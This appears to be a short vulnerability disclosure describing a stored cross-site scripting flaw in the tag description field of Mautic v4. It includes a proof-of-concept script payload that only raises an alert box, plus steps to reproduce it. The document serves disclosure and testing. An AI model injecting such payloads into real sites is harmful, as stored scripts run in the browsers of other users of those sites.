


# Exploit Title: mautic v4 - Cross-Site Scripting (XSS)
## Date: 4/16/2025
## Vendor Homepage: https://github.com/mautic/docker-mautic/tree/mautic4
## Tested on: Debian Linux, Apache, Mysql
## Vendor: mautic
## Version: v4
## Exploit Description:
## mautic v4 suffers from a Stored Cross-Site Scripting (XSS) vulnerability in the description field when create a new tag. This vulnerability allows attackers to cheat other users by injecting malicious scripts into web pages viewed by other users.

## ---------------------------------POC-----------------------------

```
<svg><script>alert(1)</script></svg>
```
1. Log in as a user with page editing privileges.
2. Click tags in the navigation.
3. Create a new tag.
4. Add <script>alert('Question');</script> to the description field and then click save botton、save&close botton,the xss vulnerability appears.



### Effect

